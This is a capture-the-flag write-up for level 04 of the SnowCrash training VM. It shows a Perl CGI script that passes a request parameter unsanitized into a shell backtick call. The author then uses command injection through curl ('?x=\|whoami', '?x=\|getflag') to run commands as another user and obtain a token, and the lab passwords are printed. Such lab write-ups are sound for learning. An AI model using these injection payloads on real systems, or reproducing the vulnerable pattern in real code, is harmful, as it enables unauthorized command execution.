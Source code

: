 # Level 04 : found flag04

```bash
level03@SnowCrash:~$ su level04
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```

```bash
level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat ./level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
level04@SnowCrash:~$ ./
.bash_logout  .bashrc       level04.pl    .profile
level04@SnowCrash:~$ ./
.bash_logout  .bashrc       level04.pl    .profile
level04@SnowCrash:~$ ./level04.pl x=test
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_TERMINAL_VERSION = "3.3.7",
	LC_CTYPE = "UTF-8",
	LC_TERMINAL = "iTerm2",
	LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Content-type: text/html

test
```

We can execute code, but we stay as the same user.

```bash
level04@SnowCrash:~$ ./level04.pl x=|whoami
[...]
level04
```

But we can connect ourself via curl on `localhost:4747`

```bash
level04@SnowCrash:~$ curl http://localhost:4747?x=\|whoami
flag04
```

Now we are the user `flag04`.\
All we need now is to call `getflag function`. 

```bash
level04@SnowCrash:~$ curl http://localhost:4747?x=\|getflag
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

****************************************

Documentations :
* http://www.ouah.org/hackingcgi.htm